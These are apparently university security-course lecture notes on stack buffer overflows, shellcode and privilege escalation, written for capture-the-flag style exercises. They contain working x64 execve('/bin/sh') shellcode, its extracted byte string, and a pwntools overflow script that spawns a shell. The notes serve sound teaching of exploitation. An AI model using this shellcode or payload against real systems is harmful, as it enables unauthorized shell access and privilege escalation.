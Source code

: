 ```yaml
---
layout: ../../../semesters/Fall2024Markdown.astro
---
```


# Shellcode and privilege escalation

## Introductions

- introductions of two students

## Key concepts

### Basic buffer overflow

We have previously used a buffer overflow to overwrite the return address with
an address of our choosing. For example, this could go into the code block to
execute some functionality that was not intended. In our toy examples this code
would print out a congratulations message or a flag, but a more dangerous piece
of code might grant the user administrative privileges.

![basic buffer overflow, overwriting the return address with a pointer into the code block](/images/notes/basic-overflow.png)

### Injecting code onto the stack

A more advanced attack injects code onto the stack, then writes the return
address to point to that code. The attack code could come before or after the
return address. In case the return address doesn't point exactly to the start of
the injected code, the attacker can add a NOP sled in front of the code.

![buffer overflow that injects code onto the stack](/images/notes/injecting-code.png)

The injected code could execute:

- `cat /flag.txt` in a CTF contest
- `/bin/sh` if wanting to create a shell (which then lets the attacker execute
  any other command)

### The execve() system call

The `execve` system call allows a program to transform itself into a new process
-- "stop running my program, and run this other program instead". Never returns
to the calling program unless an error occurred when creating the new process
image.

```c
#include <unistd.h>

int execve(const char *pathname, char *const _Nullable argv[],
           char *const _Nullable envp[]);
```

- `pathname` is the path to a binary executable
- `argv` is an array of arguments for the program
- `envp` is an array of environment variables of the form `key=value`

Your shell might use this to start a program when you type a command at the
prompt:

```c
char *name[2];
name[0] = "curl";
name[1] = 'https://someURL.com';
execve("/usr/bin/curl", name, NULL);
```

### Shellcode

When an attacker injects code, it is really useful to have that code spawn a
shell. They can do this using `execve` to start `/bin/sh`. To write shellcode:

- write assembly to launch the shell
- compile this into a binary
- extract the raw bytes to use for injection

Here is some
[example shellcode](https://book.jorianwoltjer.com/binary-exploitation/shellcode)
for the x64 architecture:

```asm
.global _start
_start:
.intel_syntax noprefix
        mov rax, 59           ; choose which syscall: execve (see x64.syscall.sh)
        lea rdi, [rip+binsh]  ; set a *pointer* to the /bin/sh string as 1st argument
        mov rsi, 0            ; set 2nd argument (argv[]) to NULL
        mov rdx, 0            ; set 3rd argument (envp[]) to NULL
        syscall               ; perform the syscall we set up
binsh:
        .string "/bin/sh"     ; include the string we referenced
```

You can then compile this and convert it to an ascii representation:

```sh
# compile
gcc -nostdlib -static shellcode.s -o shellcode-elf
# convert to raw
objcopy --dump-section .text=shellcode-raw shellcode-elf
# hexdump to ascii
hexdump -v -e '"\\" 1/1 "x%02x"' shellcode-raw; echo
```

This is the resulting string:

```
\x48\xc7\xc0\x3b\x00\x00\x00\x48\x8d\x3d\x10\x00\x00\x00\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00
```

To complete the attack manually, you can use `gdb` to identify the address of
the area where the code is located, using this to overwrite the return address.

### Simplifying the attack

You can use `pwntools` to greatly simplify a buffer overflow attack. A
[video from CryptoCat](https://www.youtube.com/watch?v=4zut2Mjgh5M) walks
through this process in detail. The script below shows the primary pieces of the
attack.

```python
# Offset to EIP (return address)
padding = 76

# Assemble the byte sequence for 'jmp esp' so we can search for it
# This finds a "jump esp" instruction that already exists in the binary, and points to the address of
# that instruction. The ESP will point to the memory location right after the return address, which
# is where you will put your payload.
jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

# shellcode to run /bin/sh
shellcode = asm(shellcraft.sh())
# you could alternatively have shellcode to print the flag
# shellcode = asm(shellcraft.cat('flag.txt'))

# Build payload
payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 16,
    shellcode
)

# Write payload to file to use later
write("payload", payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

### Privilege escalation

Privilege escalation occurs any time an attacker is able to increase their
privileges. For example:

- moving from existing program functionality to running a shell
- moving from a sandbox to the entire filesystem
- moving from a non-root account to a root account
- moving from user space privileges to kernel-mode privileges

Our shellcode examples fall under the first category.

### Additional reading

- [writing Windows shellcode](https://idafchev.github.io/blog/writing_windows_shellcode/)
